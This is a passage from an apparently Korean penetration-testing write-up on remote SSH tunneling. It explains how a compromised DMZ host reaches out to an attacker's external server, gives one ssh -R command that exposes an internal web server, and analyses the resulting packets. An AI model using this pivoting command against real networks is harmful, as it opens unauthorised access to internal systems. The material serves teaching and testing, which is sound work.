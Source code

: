 해당 환경에서 가장 중요한 점은 DMZ 내의 호스트를 SSH client 삼아 외부의 거점서버로 SSH Tunneling을 연결한다는 것입니다.

여기서 선제 조건은 DMZ 내의 호스트 탈취가 먼저 이루어져야 합니다. 파일 업로드, 커맨드 인젝션, 1-day RCE 등 다양한 방법을 통한 DMZ 내의 호스트에 대한 원격 명령 실행이 먼저 진행되어야 합니다. 

```bash
# Victim Public Domain : test.kimmongyong.kr
# Victim Internal Network Server 1 : 172.16.10.100
# Victim SSH Client : 172.16.10.100
# Victim Internal Network Server 2 : 172.16.10.254
# SSH Base SSH Server : pentest.yoobi.kr

# DMZ 서버에서 외부 거점서버로 연결
# 아래 명령어가 실행되는 호스트 : 172.16.10.100
$ ssh root@pentest.yoobi.kr -p 10500 -R 10501:172.16.10.254:80
```

해당 과정이 진행될 때의 네트워크 패킷을 확인해보도록 하겠습니다. 

![Untitled](/assets/2024-03-20//Untitled%206.png)

Victim Internal Network Server 1(172.16.10.100)에서 확인한 결과 Local Tunneling과 동일한 형태로 SSH 통신 이후에 TCP 통신 연결시도가 진행되며, TCP 통신 이후에 SSH 통신으로 공격자에게 패킷이 전달되는 것을 확인할 수 있습니다.

위 캡처에서 SSH 포트가 22로 설정되지 않아 SSHv2가 아닌 TCP 프로토콜로 표시되었지만, 해당 패킷의 TCP Stream 확인 시 SSH 패킷임을 확인할 수 있습니다.
